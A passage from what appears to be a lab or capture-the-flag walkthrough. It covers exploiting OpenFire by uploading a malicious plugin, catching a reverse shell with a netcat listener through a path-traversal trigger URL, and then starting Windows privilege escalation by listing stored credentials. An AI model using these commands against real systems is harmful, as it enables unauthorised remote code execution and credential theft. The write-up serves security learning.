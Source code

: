 Next we put the plugin into the correct structure for uploading to OpenFire.

```shell
cp ./target/exampleplugin.jar exampleplugin.zip; zip -ur exampleplugin.zip ./plugin.xml ./readme.html; mv exampleplugin.zip ./target/exampleplugin.jar;
```

The correct file is `exampleplugin.jar` located in `target/`

Start a listener:

```shell
rlwrap -cAr nc -nvlp 6969
```

Next we upload the exploit

-   {{< figure src="/ox-hugo/2025-04-21-110351_.png" >}}

Now we finally trigger the plugin so our reverse shell is active.

```shell
curl -v "http://127.0.0.1:8000/setup/setup-s/%u002e%u002e/%u002e%u002e/plugins/exampleplugin/exampleplugin-page.jsp?"
```

Again an exception will be thrown but we have our reverse shell.

-   {{< figure src="/ox-hugo/2025-04-21-110211_.png" >}}


## 4. Privilege Escalation: {#4-dot-privilege-escalation}


### Privesc as openfire: {#privesc-as-openfire}

If you just want to get to the good stuff you can jump straight to `openfire DB` part, however I left this all in as a means to show it's not as simple "you just do x then y then you're root" there is more to it.


#### Check for default creds: {#check-for-default-creds}

I run to check for stored credentials however we only get default credentials.

```cmd
cmdkey /list
```

-   {{< figure src="/ox-hugo/2025-04-21-135915_.png" >}}


##### What Is `virtualapp/didlogical`? {#what-is-virtualapp-didlogical}

This one confuses a lot of people. It's actually a default credential entry that Windows creates automatically in certain situations.

-   `virtualapp/didlogical` is a placeholder credential used internally by Windows often related to services like:
    -   Windows Live (Outlook, OneDrive)
    -   Remote Desktop/Live Sign-In
    -   Credential Manager
    -   Virtualized services / Hyper-V

